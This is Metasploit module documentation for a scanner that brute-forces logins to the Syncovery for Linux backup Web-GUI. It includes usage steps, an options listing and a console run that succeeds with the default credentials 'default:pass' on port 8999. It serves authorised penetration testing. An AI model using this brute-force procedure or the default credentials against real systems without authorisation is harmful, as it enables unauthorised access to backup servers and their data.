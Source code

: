 ## Vulnerable Application
[Syncovery For Linux with Web-GUI](https://www.syncovery.com/download/linux/)

This module attempts to brute-force valid login credentials for the Syncovery File Sync & Backup Software Web-GUI for Linux.
The default credentials are checked by default.

### Authors

- Jan Rude (mgm security partners GmbH)

### Platforms

- Unix

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use modules/auxiliary/scanner/http/syncovery_linux_login`
4. Do: `set RHOSTS <TARGET HOSTS>`
5. Do: `run`
6. On success you should get valid credentials.

## Scenarios

### Syncovery for Linux with default credentials

```
msf6 > use modules/auxiliary/scanner/http/syncovery_linux_login
msf6 auxiliary(scanner/http/syncovery_linux_login) > set rhosts 192.168.178.26
rhosts => 192.168.178.26
msf6 auxiliary(scanner/http/syncovery_linux_login) > options

Module options (auxiliary/scanner/http/syncovery_linux_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   DB_SKIP_EXISTING  none             no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
   PASSWORD          pass             no        The password to Syncovery (default: pass)
   PASS_FILE                          no        File containing passwords, one per line
   Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS            192.168.178.26   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT             8999             yes       The target port (TCP)
   SSL               false            no        Negotiate SSL/TLS for outgoing connections
   STOP_ON_SUCCESS   true             yes       Stop guessing when a credential works for a host
   TARGETURI         /                no        The path to Syncovery
   THREADS           1                yes       The number of concurrent threads (max one per host)
   USERNAME          default          yes       The username to Syncovery (default: default)
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output for all attempts
   VHOST                              no        HTTP server virtual host

msf6 auxiliary(scanner/http/syncovery_linux_login) > run

[+] 192.168.178.26:8999 - Syncovery File Sync & Backup Software confirmed
[+] 192.168.178.26:8999 - Identified version: 9.48a
[+] 192.168.178.26:8999 - Success: 'default:pass'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
